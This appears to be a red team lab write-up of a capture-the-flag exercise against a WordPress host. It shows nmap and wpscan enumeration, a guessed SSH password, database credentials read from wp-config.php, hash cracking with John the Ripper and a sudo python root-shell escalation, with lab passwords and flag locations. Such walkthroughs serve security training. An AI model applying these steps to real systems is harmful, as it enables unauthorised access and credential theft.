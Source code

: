 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Command: $ nmap -sV 192.168.1.110
  
 ![](images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open ssh
  - Port 80/tcp open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp Open netbios-ssn
  - Poert 445/tcp Open netbios-ssn
  

The following vulnerabilities were identified on each target:
- Target 1
  - List of Critical Vulnerabilities
Following user were identified by running wpscan command

Command: wpscan --url http://192.168.1.110/wordpress --enumerate u

Two users can be seen:

![](images/user.png)

With a simple brut force user Michael password was cracked: Password was "michael"

Command:ssh michael@192.168.1.110

password: michael

![](images/password.png)

 `flag1.txt`: 
 
   -Flag 1 was found in the following director:
    Command: cd /var/www/html
           : ls -al
           : nano services.html
           
![](images/Flag.png)
![](images/Flag1.png)

`flag2.txt`:

    -Flage 2 was found in following directories:
     
     Command: cd /var/www/
            
            : ls -al

![](images/flag2.png)


### Exploitation

Mysql server login credentials was listed in wp-config.php file from where steven password was cracked using john ripper and his account was used then to execute python to escalte root preveliage. Following steps were involved

Step 1:
-SSH into Michael account

command: ssh micheal@192.168.1.110

-Login credentials using MYSQL server, were found in wp-config.php file within var/www/html/wordpress directory.

-Flag 3 was found in the wp_posts table in the wordpress database.


Command: mysql -u root -p

password: R@v3nSecurity
  
  mysql> use wordpress;
        
        show table;
        
        SELECT * FROM wp_users;
        
        SELECT * FROM wp_posts;

![](images/WP-TABLE.png)
![](images/Flag3.png)


Step 2:
Password was cracke using john ripper uing following command
command: john wp_hashes.txt
user steven password is cracked: pink84

Step 3:
Once the password hash was cracked, then SSH into Steven to execute python to escalte root privilege

Command: ssh steven@192.168.1.110

password: pink84
        
        :sudo -l
        
        :sudo python -c 'import pty;pty.spawn ('/bin/bash");'
        
        :cd /root
        
        :ls -al
        
        :cat falg4.txt
        
![](images/flag4.png)



